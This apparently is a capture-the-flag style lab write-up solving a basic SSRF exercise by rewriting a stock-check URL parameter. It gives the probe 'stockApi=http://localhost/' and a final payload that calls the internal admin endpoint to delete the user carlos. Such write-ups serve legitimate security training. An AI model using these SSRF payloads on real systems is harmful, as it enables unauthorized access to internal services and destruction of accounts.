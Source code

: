 
# Lab: Basic SSRF against the local server

This lab has a stock check feature which fetches data from an internal system.
To solve the lab, change the stock check URL to access the admin interface at ```http://localhost/admin``` and delete the user ```carlos```.

-------
Analysis:

localhost -> just change the value of the

```stockApi=http%3A%2F%2Fstock.localhost.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D1```
<br>
to
<br>

```stockApi=http://localhost/```

after this we are sure that there is a SSRF vulnerability here  

via the GUI we can try to remove the user

delete carlos request - ```http://127.1/admin/delete?username=carlos```

final payload
```stockApi=http://127.1/admin/delete?username=carlos```

python3 lab_ssrf.py <www.example.com>
